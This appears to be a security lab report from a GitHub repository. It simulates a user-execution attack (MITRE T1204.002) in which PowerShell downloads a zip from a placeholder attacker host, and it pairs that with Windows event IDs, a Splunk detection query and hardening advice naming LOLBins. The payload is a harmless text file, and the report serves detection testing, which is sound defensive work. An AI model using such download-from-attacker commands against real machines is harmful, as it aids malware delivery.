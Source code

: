 🔍 Suspicious File Download & Execution Simulation Report

📌 Use Case

MITRE ATT\&CK Technique:

* Initial Access & Execution

  * `T1204.002` – User Execution: Malicious File

---

📝 Scenario Summary

This simulation replicates a common initial access vector where an attacker uses a legitimate tool such as PowerShell to download and execute a malicious ZIP file. The scenario aims to test the visibility of suspicious download activity and script execution within a Windows environment using PowerShell and detect them via Splunk.

---

🧪 Attack Steps

Tools/Commands Used:

On Attacker Machine (Kali Linux):

```bash
echo "malicious payload inside" > fake_payload.txt
zip malicious.zip fake_payload.txt
python3 -m http.server 8080
```

On Victim Machine (Windows):

```powershell
powershell -Command "Invoke-WebRequest -Uri http://<Attacker-IP>:8080/malicious.zip -OutFile C:\Users\Public\malicious.zip"
```

* This uses PowerShell's `Invoke-WebRequest` to download a ZIP archive containing a fake payload.
* The file is dropped in a public user directory for potential execution.

---

📊 Event IDs & Data Sources

| Source                     | Event ID | Description                     |
| -------------------------- | -------- | ------------------------------- |
| Windows Security Logs      | 4688     | Process creation                |
| Sysmon (if enabled)        | 1        | Detailed process monitoring     |
| PowerShell Operational Log | 4104     | PowerShell script block logging |

---

🔎 Detection Logic (Splunk SPL)

```spl
index=* EventCode=4104
| table _time, host, source, sourcetype, Message
| sort -_time
```


---

🔐 Recommendations

* Block download and execution of files from untrusted sources using PowerShell.
* Enable and monitor ScriptBlockLogging and ModuleLogging via GPO.
* Restrict PowerShell usage to authorized users.
* Alert on use of LOLBins like `Invoke-WebRequest`, `certutil.exe`, or `bitsadmin.exe`.

---

🚨 Status

* [x] Detection Tested
* [x] Alert Triggered

---
